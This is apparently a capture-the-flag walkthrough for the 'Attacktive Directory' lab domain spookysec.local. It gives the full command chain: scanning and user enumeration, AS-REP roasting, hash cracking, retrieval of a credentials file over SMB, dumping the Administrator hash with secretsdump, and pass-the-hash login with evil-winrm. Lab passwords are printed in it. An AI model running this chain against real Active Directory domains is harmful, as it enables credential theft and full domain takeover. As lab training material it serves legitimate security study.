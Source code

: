 # Attacktive directory

## Attack tree

```text

```

## Example

### Scanning

    # nmap -sV -sC -T4 <IP address target>

### Enumerate the DC with enum4linux

    # enum4linux <IP address target>

### Enumerate the DC with Kerbrute

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

### Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \>mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

### Enumerate the DC again

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [email protected]:backup2517860

Rretrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we will have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator

Pass the Hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H THEFOUNDHASH

All flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```
